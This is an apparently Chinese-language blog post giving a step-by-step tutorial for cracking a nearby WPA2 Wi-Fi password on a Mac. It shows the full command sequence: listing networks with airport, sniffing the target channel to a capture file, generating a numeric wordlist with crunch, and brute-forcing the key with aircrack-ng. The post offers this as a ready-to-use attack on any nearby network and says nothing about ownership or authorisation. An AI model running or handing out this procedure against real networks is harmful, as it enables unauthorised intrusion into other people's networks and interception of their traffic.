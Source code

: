 ```yaml
---
layout: post
title: Mac上使用aircrack-ng破解Wi-Fi密码
tags: [mac, aircrack-ng, Wi-Fi]
categories:
  - 技术互联
---
```


## 使用Airport获取附近可用Wi-Fi　

　　MacOS自带的命令可以获取附近Wi-Fi的详细信息。首先我们需要把命令加到环境变量中：

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

　　然后通过`source ~/.zshrc`或者重新打开终端即可使用`airport`命令：

```
sudo airport -s
```

　　命令结果显示出附近可用的Wi-Fi信息，如下所示：

```
    SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
 ******* **:**:**:**:**:** -50  153     Y  CN -- WPA2(PSK/AES/AES)
ChinaNet **:**:**:**:**:** -46  11      N  CN NONE
...
```

　　其中，我们先找到我们需要破解的Wi-Fi名字，纪录下来BSSID，CHANNEL和SECURITY信息，后面会用到。BSSID就是我们目标Wi-Fi发射器的Mac地址。

## 开启信道监听

　　首先我们要获取Mac本机无线网卡名字，通过键入`ifconfig`分析可以得到。我本机无线网卡的名字`en1`，下面的命令需要替换成自己对应的无线网卡名称：

```
sudo airport en1 sniff 11
```

　　命令中的11就是我们在之前获取附近Wi-Fi信息所记录目标Wi-Fi的信道。如果一切顺利的话，会生成`/tmp/airportSniffy*.cap`文件纪录捕获的传输数据。这个文件地址也需要纪录下来，后面会用到。

## 安装aircrack-ng、crunch 

　　使用`brew`包管理器安装就可以，也可以选择下载源码自己编译安装。

```
brew install aircrack-ng
brew install crunch # optional
```

　　crunch 是一个自定义字典生成器，如果有现成的字典则不需要。crunch 生成长度为8的纯数字字典并存入 dic.txt 示例如下：

```
crunch 8 8 0123456789 -o dic.txt
```

## 开始破解

　　由于现在的Wi-Fi基本上都是采用WPA2的加密方式，所以我们需要指定 -a 参数为2。

```
aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff*.cap
```

　　参数说明：

　　- \-w 指定字典文件
　　- \-M 指定最大IVs，根据提示可以适当调大次参数
　　- \-f 暴力破解因子，默认2，也可适当调大
　　- \-a 加密类型，1:WEP, 2:WPA-PSK
　　- \-b BSSID，刚刚纪录目标Wi-Fi的Mac地址
　　
　　更多参数说明可以通过`aircrack-ng --help`查看。
　　后面紧跟之前纪录的捕获数据的存储地址即可。如果在字典里面找到的话，可以看到如下画面：

![Crack SuccessFully Image]({{ site.image_url }}/aircrack-ng/success.png)

　　注：因为 aircrack-ng 是破解捕获数据的，所以所破解的Wi-Fi必须要有设备连接，并且有网络通信，否则无法破解。

## 参考目录

- [1] [Aircrack-ng Wiki](https://www.aircrack-ng.org/doku.php?id=Main)
